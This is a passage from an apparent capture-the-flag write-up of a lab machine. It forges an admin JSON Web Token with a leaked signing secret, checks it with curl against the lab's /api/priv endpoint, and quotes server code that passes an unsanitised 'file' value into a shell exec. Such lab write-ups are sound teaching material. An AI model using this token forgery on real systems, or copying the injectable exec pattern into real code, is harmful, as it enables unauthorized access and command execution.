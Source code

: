     
    
    >>> jwt.decode(token, secret, algorithms=["HS256", "RS256"])
    {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}
    

#### Create Token

I’ll note above that `jwt.decode()` returns a dictionary with the various data
from the JWT. I’ll save that to `j`, and then change the name to theadmin and
use `jwt.encode()` to create a new token from that dictionary:

    
    
    >>> j = jwt.decode(token, secret)
    >>> j['name'] = 'theadmin'
    >>> jwt.encode(j, secret)
    b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8'
    

`/api/priv` confirms that this token has the admin role:

    
    
    oxdf@hacky$ curl -s 'http://10.10.11.120/api/priv' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq .
    {
      "creds": {
        "role": "admin",
        "username": "theadmin",
        "desc": "welcome back admin"
      }
    }
    

### Command Injection

#### Theory

The code that I suspect will be vulnerable to command injection is:

    
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    
